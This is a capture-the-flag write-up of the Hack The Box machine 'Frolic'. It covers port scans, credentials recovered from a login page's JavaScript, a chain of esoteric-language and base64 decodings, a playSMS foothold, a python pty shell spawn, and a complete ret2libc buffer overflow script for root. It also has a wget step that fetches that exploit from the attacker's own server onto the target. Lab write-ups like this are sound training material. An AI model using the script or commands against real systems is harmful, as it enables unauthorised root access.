



# Frolic

__URL__: https://www.hackthebox.eu/home/machines/profile/158

__Machine IP__: 10.10.10.111

__DATE__ : 22/02/2019

Let's start with the basics

<span style="color:red">__NMAP__</span>
```bash
➜ nmap -sV -A  10.10.10.111
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-22 16:28 IST
Nmap scan report for 10.10.10.111
Host is up (0.16s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 87:7b:91:2a:0f:11:b6:57:1e:cb:9f:77:cf:35:e2:21 (RSA)
|   256 b7:9b:06:dd:c2:5e:28:44:78:41:1e:67:7d:1e:b7:62 (ECDSA)
|_  256 21:cf:16:6d:82:a4:30:c3:c6:9c:d7:38:ba:b5:02:b0 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
9999/tcp open  http        nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx!
Service Info: Host: FROLIC; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h49m25s, deviation: 3h10m31s, median: 33s
|_nbstat: NetBIOS name: FROLIC, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: frolic
|   NetBIOS computer name: FROLIC\x00
|   Domain name: \x00
|   FQDN: frolic
|_  System time: 2019-03-22T16:30:06+05:30
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-03-22 16:30:06
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.44 seconds
```

<span style="color:Red">__dirsearch__</span>
```
[16:41:58] 301 -  194B  - /admin  ->  http://10.10.10.111:9999/admin/
[16:41:59] 200 -  634B  - /admin/
[16:42:19] 301 -  194B  - /backup  ->  http://10.10.10.111:9999/backup/
[16:42:20] 200 -   28B  - /backup/
[16:42:37] 301 -  194B  - /dev  ->  http://10.10.10.111:9999/dev/
[16:42:37] 403 -  580B  - /dev/
[16:42:37] 403 -  580B  - /dev/
[16:43:35] 301 -  194B  - /test  ->  http://10.10.10.111:9999/test/
[16:43:36] 200 -   83KB - /test/

Task Completed
```

I see that smb service was running to I tried to run nmap with sbm enum script

```bash
➜ nmap --script smb-enum-shares.nse -p445 10.10.10.111
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-22 16:32 IST
Nmap scan report for 10.10.10.111
Host is up (0.17s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares:
|   account_used: guest
|   \\10.10.10.111\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (frolic server (Samba, Ubuntu))
|     Users: 3
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.111\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 19.87 seconds
```
Okay, there's nothing here so let's just try `admin` page on the port `9999` found by `dirsearch`. Visiting the URL `http://10.10.10.111:9999/admin/`



In the source of that page you'll notice a js file
```html
<html>
<head>
<title>Crack me :|</title>
<!-- Include CSS File Here -->
<link rel="stylesheet" href="css/style.css"/>
<!-- Include JS File Here -->
<script src="js/login.js"></script>
</head>
<body>
<div class="container">
<div class="main">
<h2>c'mon i m hackable</h2>
<form id="form_id" method="post" name="myform">
<label>User Name :</label>
<input type="text" name="username" id="username"/>
<label>Password :</label>
<input type="password" name="password" id="password"/>
<input type="button" value="Login" id="submit" onclick="validate()"/>
</form>
<span><b class="note">Note : Nothing</b></span>
</div>
</div>
</body>
</html>
```

In that JS file we have the `username` and `password`
```javascript
var attempt = 3; // Variable to count number of attempts.
// Below function Executes on click of login button.
function validate(){
var username = document.getElementById("username").value;
var password = document.getElementById("password").value;
if ( username == "admin" && password == "superduperlooperpassword_lol"){
alert ("Login successfully");
window.location = "success.html"; // Redirecting to other page.
return false;
}
else{
attempt --;// Decrementing by one.
alert("You have left "+attempt+" attempt;");
// Disabling fields after 3 attempts.
if( attempt == 0){
document.getElementById("username").disabled = true;
document.getElementById("password").disabled = true;
document.getElementById("submit").disabled = true;
return false;
}
}
}
```
Login in with those credentials we are given the following output:

```
..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... ..... ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.? !.?.. ..... ..... ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! ..... ..... .!.!! !!!!! !!!!! !!!.? ..... ..... ..... ..!?! !.?!! !!!!! !!!!! !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... ..... ..... .?.?! .?... ..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?. ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... ..... ..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !.... ..... ..!.! !!!!! !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!! !!!!! !?.?! .?!!! !!!!! !!!!! !!!!! !!!!! .?... ....! ?!!.? ..... .?.?! .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?.. !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.? !!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!! !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!! !!!!! !!?.? !.?!! !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. ..... ..... .!.?. ..... ...!? !!.?! !!!!! !!?.? !.?!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!! !!!!! !!!!! !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... ..... ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! ..... ..!.! !!!!! !.?.
```

This at first sight looks shit, and you won't be able to figure it out easily if you haven't played any type of CTFs. This is basically an esolang called `OOK`, after decoding using (https://www.dcode.fr/ook-language) we get

```
Nothing here check /asdiSIAJJ0QWE9JAS
```

visit the URL `http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/` and we get a string in `base64`
```
UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwAB BAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbs K1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmve EMrX4+T7al+fi/kY6ZTAJ3h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTj lurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkC AAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUG AAAAAAEAAQBPAAAAAwEAAAAA
```

Decode that b64, you can use online decoder or basic command
```bash
echo "b64 string" | base64 -d > frolic
```
This gives you password protected zip file. I used john to crack the password, literally took a sec because password is `password`.

In there we get a `indec.php` which had hex values in
```
4b7973724b7973674b7973724b7973675779302b4b7973674b7973724b7973674b79737250463067506973724b7973674b7934744c5330674c5330754b7973674b7973724b7973674c6a77720d0a4b7973675779302b4b7973674b7a78645069734b4b797375504373674b7974624c5434674c53307450463067506930744c5330674c5330754c5330674c5330744c5330674c6a77724b7973670d0a4b317374506973674b79737250463067506973724b793467504373724b3173674c5434744c53304b5046302b4c5330674c6a77724b7973675779302b4b7973674b7a7864506973674c6930740d0a4c533467504373724b3173674c5434744c5330675046302b4c5330674c5330744c533467504373724b7973675779302b4b7973674b7973385854344b4b7973754c6a776743673d3d0d0a
```

Convert that from `hex` and you get `b64` change that and you get code written in `brainfuck` change that and you get

```
idkwhatispass
```

Yes exactly I also felt the same, WTF is this?

Okay so time to explore some more, I decided to visit the `/backup`


But again I can't understand where to use those password.
So after spending hours I couldn't figure out shit, so I decided to lookup the forum discussion and there I saw people mentioning port `1880`(should've gone for the full port scan :disappointed:)

```
➜ nmap -sV 10.10.10.111 -p 1880
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-22 21:16 IST
Nmap scan report for 10.10.10.111
Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
1880/tcp open  http    Node.js (Express middleware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.92 seconds
```

So there's a node.js service running up there, I tried login in with all those creds we have then I decided to enum more.

```bash
_ python dirsearch.py -u http://10.10.10.111:1880/ -e * -b

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: CHANGELOG.md | Threads: 10 | Wordlist size: 6075

Error Log: /home/mzfr/CTFs/dirsearch/logs/errors-19-03-22_21-21-16.log

Target: http://10.10.10.111:1880/

[21:21:17] Starting:
[21:22:07] 200 -  150B  - /auth/login
[21:22:34] 200 -   17KB - /favicon.ico
[21:22:41] 401 -   12B  - /icons
[21:23:05] 401 -   12B  - /nodes
[21:23:24] 401 -   12B  - /settings
[21:23:24] 401 -   12B  - /settings/

Task Completed
```

Nothing seems interesting so let focus on the port `9999`

Visiting the `http://10.10.10.111:9999/dev/backup/` gives us

```
/playsms
```

So visiting `http://10.10.10.111:9999/playsms/` we are redirected to `http://10.10.10.111:9999/playsms/index.php?app=main&inc=core_auth&route=login`
and prompted with a login page



Now trying to login to page with creds we have `admin:idkwhatispass` and we are in. After some googling I foundn out that playsms service had some shits and can be exploited so let's find some xploit for this, fire up msfconsole.



Let's fill up the options


after this normal `ls` and stuff didn't worked so I tried spawning the TTY shell with python
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
Now looking around the directory I directly went for `/home` and found a user name `ayush` there. It had the `user.txt`

```
2ab95909***************
```

After owning the user, I kept on looking for ways to own the root user but couldn't figure out anything so decided to read the forum and found out that I need to do some binary exploitation and that's where I sucked, I am not very good at RE/PWN.

Also I realizsed that the machine was retired and I was scared that it might not be free for longer period of time so I decided to lookup for walkthrough and decided to use `Bernie Lim's` exploit([Walkthrough](https://hackso.me/frolic-htb-walkthrough/))

```bash
#!/bin/bash

# Get all the addresses
TARGET="$(readlink -f $1)"
LIBC_INFO="$(ldd $TARGET | grep libc)"
LIBC_BASE="$(awk '{ print $NF }' <<<"$LIBC_INFO" | tr -cd '[x0-9a-f]')"
LIBC_FILE="$(awk '{ print $3 }' <<<"$LIBC_INFO")"
SYSTEM_OFFSET="0x$(readelf -a $LIBC_FILE | grep -m1 "system@" | awk '{ print $2 }')"
SYSTEM_ADDR="$(printf "0x%08x" $((LIBC_BASE + SYSTEM_OFFSET)))"
BIN_SH_OFFSET="$(grep -oba '/bin/sh' $LIBC_FILE | cut -d':' -f1)"
BIN_SH_ADDR="$(printf "0x%08x" $((LIBC_BASE + BIN_SH_OFFSET)))"

# Construct exploit string
RET_ADDR="$(sed -r 's/^0x(..)(..)(..)(..)$/\\x\4\\x\3\\x\2\\x\1/' <<<"$SYSTEM_ADDR")"
PAYLOAD_ADDR="$(sed -r 's/^0x(..)(..)(..)(..)$/\\x\4\\x\3\\x\2\\x\1/' <<<"$BIN_SH_ADDR")"

# Exploit
$TARGET $(perl -e "print 'A' x 52 . \"$RET_ADDR\" . \"JUNK\" . \"$PAYLOAD_ADDR\"")
```

So after I had the working exploit(thanks to Bernie) I decided to upload the file in the `/tmp` folder and then run it.

For transfering the file you can use python, Just run the following command on your own system, in the directory having the exploit file.
Eg: If the exploit is in the directory `/HTB/frolic` then in that directory run the theh following command

If you are using `python2` then
```python
python -m SimpleHTTPServer
```
For `python3`
```
python -m http.server
```

And in the `/tmp` directory of the machine run the following command:
```bash
wget http://<machine-ip>:<port server started>/<filename>
```

__Here__

* `machine-ip`:The ip address of with which you are connected to HTB. You can find this IP using `ifconfig` or `ip addr`
* `Port`: The port on which your python server started
* `filename`: name of the exploit

So In `/tmp` I did:
```
wget http://10.10.13.225:8000/rop.sh
```

Now simply run the exploit:

```
>>> ./exploit.sh /home/ayush/.binary/rop
```

You'll have the root shell and then just get the `root.txt`

```
>>> cat /root/root.txt
85d3fdf03f9*************
```


In this Machine the most important thing that I learned was, that I need to start learning PWN/RE.
